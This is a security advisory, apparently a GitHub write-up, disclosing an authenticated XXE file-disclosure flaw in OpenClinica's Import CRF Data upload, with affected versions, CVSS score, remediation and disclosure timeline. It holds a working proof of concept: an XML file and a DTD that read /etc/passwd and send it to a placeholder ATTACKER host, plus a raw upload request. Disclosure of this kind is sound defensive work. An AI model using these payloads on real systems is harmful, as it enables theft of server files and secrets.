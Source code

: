 # OpenClinica Import CRF Data – XXE file disclosure

An XML External Entity issue in **Import CRF Data** discloses OS files via error-based XXE.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21) (OpenClinica VM Image)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager** and **Clinical Research Coordinator**)

## Summary
The XML parser processes external entities. A crafted XML can read local files (e.g. `/etc/passwd`) and reflect their contents back in the UI error block, confirming **XXE** with file disclosure and potential SSRF.

## Screenshot
![Error-based XXE disclosing /etc/passwd](3.png)

## PoC

**evil.xml**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
```

**malicious.dtd**
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://ATTACKER/leak?d=%file;'>">
%all;
```

## Raw request (abridged)
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X

------X
Content-Disposition: form-data; name="xml_file"; filename="evil.xml"
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
------X--
```

## Impact
- Read arbitrary local files as the application user (secrets, config, keys)
- Potential SSRF by pointing entities at internal HTTP services

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **7.1 High**  
**CWE:** 611 (XXE)

## Remediation
- Disable DTD/XXE on the XML parser: `disallow-doctype-decl=true`, `external-general-entities=false`, `external-parameter-entities=false`, `FEATURE_SECURE_PROCESSING=true`.
- Validate uploaded XML against a strict schema server-side.
- Minimise file permissions of the OpenClinica/Tomcat user.

## Timeline
- 2025-10-09: Discovered and reproduced on 3.12.2 and 3.13 images.
- 2025-10-09: Attempted to contact vendor, no response.
- 2025-10-23: Reported to VulDB.
